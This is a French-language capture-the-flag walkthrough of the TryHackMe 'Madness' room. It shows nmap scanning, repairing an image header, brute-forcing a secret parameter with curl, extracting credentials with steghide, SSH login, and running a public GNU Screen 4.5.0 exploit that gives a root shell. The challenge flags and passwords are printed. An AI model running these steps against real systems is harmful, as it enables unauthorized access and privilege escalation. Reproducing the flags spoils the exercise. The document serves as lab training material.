







# Madness #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.97.248 madness.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A madness.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 11:05 CEST
Nmap scan report for madness.thm (10.10.97.248)
Host is up (0.033s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/22%OT=22%CT=1%CU=30806%PV=Y%DS=2%DC=T%G=Y%TM=60F934E
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   31.69 ms 10.9.0.1
2   32.26 ms madness.thm (10.10.97.248)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.82 seconds
```

On remarque plusieurs services :   
Le service ssh sur le port 22.  
Le service http sur le port 80.  



On remarque que sur le site il y une image qui ne se charge pas.   



On voit dans le code source un commentaire qui dit They will never find me avec un lien au dessus qui pointe sur fichier thm.jpg. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://madness.thm/thm.jpg
--2021-07-22 11:19:11--  http://madness.thm/thm.jpg
Résolution de madness.thm (madness.thm)… 10.10.97.248
Connexion à madness.thm (madness.thm)|10.10.97.248|:80… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 22210 (22K) [image/jpeg]
Sauvegarde en : « thm.jpg »

thm.jpg                                                     100%[=========================================================================================================================================>]  21,69K  --.-KB/s    ds 0,03s   

2021-07-22 11:19:11 (636 KB/s) — « thm.jpg » sauvegardé [22210/22210]

tim@kali:~/Bureau/tryhackme/write-up$ file thm.jpg 
thm.jpg: data

tim@kali:~/Bureau/tryhackme/write-up$ exiftool thm.jpg 
ExifTool Version Number         : 12.16
File Name                       : thm.jpg
Directory                       : .
File Size                       : 22 KiB
File Modification Date/Time     : 2020:01:06 11:34:26+01:00
File Access Date/Time           : 2021:07:22 11:19:35+02:00
File Inode Change Date/Time     : 2021:07:22 11:19:11+02:00
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Warning                         : PNG image did not start with IHDR
```

On télécharge l'image et on l'analyse.  
On remarque file detect l'image comme du jpg. 
Avec exiftool on remarque qu'il detect que c'est une image en PNG, mais qu'il y un problème avec le chunk IHDR.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hexdump thm.jpg | head -1
0000000 5089 474e 0a0d 0a1a 0000 0100 0001 0100
```

Ici notre signature est 5089 474e 0a0d 0a1a.  
La signature PNG est  8950 4e47 0d0a 1a0a.
L'inversion des octets est dû faite que le fichier à été encodé sur une architecture en little endianness.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ printf '\xFF\xD8\xFF\xE0\x00\x10\x4A\x46' | dd of=thm.jpg bs=1 seek=0 count=8 conv=notrunc
8+0 enregistrements lus
8+0 enregistrements écrits
8 octets copiés, 0,00630101 s, 1,3 kB/s
```

On remplace la signature PNJ avec une signature JPG. 



On peut ouvrir l'image qui nous montre un répértoire caché : \/th1s_1s_h1dd3n  



On trouve une page web que demande de trouver un secret.   



Dans le code source on trouve un commentaire que le secret est entre 0 et 99.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://madness.thm/th1s_1s_h1dd3n/ -w /usr/share/dirb/wordlists/common.txt  -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://madness.thm/th1s_1s_h1dd3n/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/07/22 12:19:34 Starting gobuster in directory enumeration mode
===============================================================
/.hta.php             (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/index.php            (Status: 200) [Size: 406]
/index.php            (Status: 200) [Size: 406]
                                               
===============================================================
2021/07/22 12:20:12 Finished
===============================================================
```



On recherche sur quel fichier passer la valeur.  
On test avec une valeur pour voir si ca fonctionne.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ for i in `seq 0 99`; do curl -s madness.thm/th1s_1s_h1dd3n/index.php?secret=$i | grep -F '<p' | grep -v -E 'wrong|secret|Secret' ; done 
<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>
```

En testant toute les possibilités de 0 à 99 on trouve une mot de passe.  
mot de passe : y2RPJ4QaPF!B 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ steghide --extract -sf thm.jpg
Entrez la passphrase: 
�criture des donn�es extraites dans "hidden.txt".
tim@kali:~/Bureau/tryhackme/write-up$ cat hidden.txt 
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```

On extrait le fichier et on trouve un nom d'utilisateur qui semble être encodé.  
nom : wbxre 



C'est du ROT13 sur cyberchef on obtient la réponse.   
nom : joker  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://i.imgur.com/5iW7kC8.jpg
--2021-07-22 13:13:40--  https://i.imgur.com/5iW7kC8.jpg
Résolution de i.imgur.com (i.imgur.com)… 151.101.120.193
Connexion à i.imgur.com (i.imgur.com)|151.101.120.193|:443… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 151181 (148K) [image/jpeg]
Sauvegarde en : « 5iW7kC8.jpg »

5iW7kC8.jpg                                                 100%[=========================================================================================================================================>] 147,64K  --.-KB/s    ds 0,04s   

2021-07-22 13:13:40 (3,83 MB/s) — « 5iW7kC8.jpg » sauvegardé [151181/151181]

tim@kali:~/Bureau/tryhackme/write-up$ steghide --extract -sf 5iW7kC8.jpg 
Entrez la passphrase: 
le fichier "password.txt" existe d�j�. l'�craser ? (o/n) o
�criture des donn�es extraites dans "password.txt".

tim@kali:~/Bureau/tryhackme/write-up$ cat password.txt 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```

On trouve sur le site l'exercice une image.  
On constat qu'il a du contenu caché.  
On regarde dedans et on trouve un mot de passe. 
Mot de passe : *axA&GF8dP  

**user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh joker@madness.thm
joker@madness.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Jan  5 18:51:33 2020 from 192.168.244.128
joker@ubuntu:~$ 
joker@ubuntu:~$ cat user.txt 
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

On se connect avec le mot de passe et le nom, il nous reste plus que à lire le fichier user.txt pour avoir le premier flag.  
Réponse : THM{d5781e53b130efe2f94f9b0354a5e4ea} 

```bash
joker@ubuntu:~$ /usr/local/share/emacs /root/root.txt
-bash: /usr/local/share/emacs: Is a directory
joker@ubuntu:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
joker@ubuntu:~$ 
```

Ici on à deux fichier screen-4.5.0 et screen-4.5.0.old  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit screen 4.5.0
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                                                                                               | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                                                                                         | linux/local/41152.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

tim@kali:~/Bureau/tryhackme/write-up$ cp /usr/share/exploitdb/exploits/linux/local/41154.sh ./

tim@kali:~/Bureau/tryhackme/write-up$ dos2unix 41154.sh 
dos2unix: conversion du fichier 41154.sh au format Unix…

tim@kali:~/Bureau/tryhackme/write-up$ scp ./41154.sh joker@madness.thm:./
joker@madness.thm's password: 
41154.sh                                                                                                                                                                                                    100% 1151    33.1KB/s   00:00                                    
```

On trouve un exploit puis on le transfert sur la machine cible.  

```bash
joker@ubuntu:~$ chmod +x 41154.sh 
joker@ubuntu:~$ ./41154.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

# whoami
root
# cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```

On exécute l'exploit, on obtient un shell avec les droits root et on lit le fichier \/root\/root.txt    

Réponse : THM{5ecd98aa66a6abb670184d7547c8124a}   